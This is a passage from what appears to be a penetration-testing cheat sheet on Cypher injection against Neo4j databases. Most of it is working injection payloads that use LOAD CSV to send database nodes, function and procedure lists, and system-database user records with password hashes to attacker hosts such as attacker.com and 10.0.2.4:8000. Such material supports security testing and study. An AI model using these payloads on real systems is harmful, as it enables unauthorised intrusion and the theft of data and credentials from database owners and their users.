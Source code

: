 If APOC is available, there's a better way to do it using `apoc.convert.toJson`

```sql
' OR 1=1 WITH 0 as _0 MATCH (n) LOAD CSV FROM 'http://10.0.2.4:8000/?' + apoc.convert.toJson(n) AS l RETURN 0 as _0 // 
```

### Get functions and procedures

Using the built-in procedures **`dbms.functions()`** and **`dbms.procedures()`** it's possible to list all functions and procedures.

{% code overflow="wrap" %}
```sql
' OR 1=1 WITH 1 as _l00 CALL dbms.functions() yield name LOAD CSV FROM 'https://attacker.com/' + name as _l RETURN 1 //
```
{% endcode %}

{% code overflow="wrap" %}
```sql
' OR 1=1 WITH 1 as _l00 CALL dbms.procedures() yield name LOAD CSV FROM 'https://attacker.com/' + name as _l RETURN 1 // 
```
{% endcode %}

These procedures **were removed in Neo4j 5.** Instead, we can use **`SHOW PROCEDURES`** and **`SHOW FUNCTIONS`.** SHOW queries cannot be injected.

If APOC core is installed, we can use any of the procedures or functions that execute queries to list functions and procedures.

```sql
' OR 1=1 WITH apoc.cypher.runFirstColumnMany("SHOW FUNCTIONS YIELD name RETURN name",{}) as names UNWIND names AS name LOAD CSV FROM 'https://attacker.com/' + name as _l RETURN 1 // 
```

```sql
' OR 1=1 CALL apoc.cypher.run("SHOW PROCEDURES yield name RETURN name",{}) yield value 
LOAD CSV FROM 'https://attacker.com/' + value['name'] as _l RETURN 1 // 
```

### Get system database

The system database is a special Neo4j database that is not normally queryable. It contains interesting data stored as nodes:

* Databases
* Roles
* Users (including the hash of the password!)

Using APOC, it's possible to retrieve the nodes, including the hashes. Only admins can do this, but in the **free edition of Neo4j, there's only an admin user and no other users**, so it's not uncommon to find yourself running as an admin.

Use the procedure **`apoc.systemdb.graph()`** to retrieve the data.

{% code overflow="wrap" %}
```sql
' OR 1=1 WITH 1 as a  call apoc.systemdb.graph() yield nodes LOAD CSV FROM 'http://10.0.2.4:8000/?nodes=' + apoc.convert.toJson(nodes) as l RETURN 1 //  
```
{% endcode %}

